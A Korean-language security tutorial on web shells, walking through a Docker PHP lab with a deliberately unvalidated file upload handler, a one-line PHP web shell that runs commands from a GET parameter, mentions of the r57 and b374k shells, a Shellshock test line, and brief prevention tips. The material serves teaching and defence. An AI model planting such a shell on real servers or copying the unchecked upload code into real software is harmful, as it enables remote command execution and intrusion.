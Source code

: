 ## web shell

해당 기법들은 개인용으로 참조하시기 바랍니다.

업로드 취약점을 통해 시스템에 명령을 내릴수 있는 코드를 칭하지만 내부적인 코드로 인해서 발생할수 있다.

해당 취약점이 발생되면 시스템에 원격으로 백도어를 심을수 있다.

대표적인 웹셀파일 r57.php 


# 시작하기


해당 파일시작하기

테스트 PHP-fpm-Apache을 설치해야한다. 

해당 설치는 도커파일로 대체한다. 다음과 같은 커멘드를 입력하게되면 위의 세팅이 들어간 도커가 실행된다.

```
docker run --rm -p 80:80 -v <sourcePath>:/var/www/html php:7.2-apache
```

```<sourcePath>```폴더에 fileAction.php 파일을 만든후 다음과 같은 코드를 넣는다.


```
//파일업로드 HTML 코드
<form enctype="multipart/form-data" action="fileAction.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="3000000" />
    이 파일을 전송합니다: <input name="userfile" type="file" />
    <input type="submit" value="파일 전송" />
</form>
```


실제 파일의 업로드하는 PHP 코드

move_uploaded_file을 이용하여 파일을 업로드 하는 코드

```
<?php

$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);

echo '<pre>';
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "파일이 유효하고, 성공적으로 업로드 되었습니다.\n";
} else {
    print "파일 업로드 실패";
}

echo '자세한 디버깅 정보입니다:';
print_r($_FILES);

print "</pre>";

?>
```

취약점을 가진 php파일을 생성후 

해당 파일을 업로드한다.

![업로드](./../img/fileupload.jpg)
```
<?php
echo shell_exec($_GET['cmd']);
?>
```
그리고 간단한 쉘스크립트를 GET프로토콜에 데이터 파라메타인 cmd에 쉘 스크립트를 실행해보자.

![업로드](./../img/exec.jpg)

위의 작업을 좀더 편하게 해주는 php가 대표적으로 r57.php 이 있다.

php를 업로드하여 들어가보자

![업로드](./../img/b374kmini.jpg)

또한 root가아니여도 2014-6271(Shell Shock) 사태처럼 쉘취약점을 이용하여 root를 탈취 가능하다.

bash Shell 취약점 테스트 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```


## 예방법

- 웹 서버의 파일 업로드 취약점 제거
- 파일 업로드 폴더의 실행 제한
- 웹 서버의 실행을 root로 하지말기


## 참조

https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084

https://s1gnalcha0s.github.io/node/2015/01/31/SSJS-webshell-injection.html

http://www.r57.gen.tr/